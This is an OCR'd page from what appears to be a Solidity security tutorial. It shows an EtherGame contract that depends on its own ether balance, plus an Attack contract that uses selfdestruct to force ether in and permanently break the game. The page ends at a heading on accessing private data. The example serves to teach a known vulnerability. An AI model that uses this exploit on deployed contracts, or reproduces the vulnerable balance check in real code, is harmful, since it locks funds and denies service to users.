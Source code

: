 What happened? \
Attack forced the balance of EtherGame to equal 7 ether. 
Now no one can deposit and the winner cannot be set.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```


# 4. Accessing Private Data

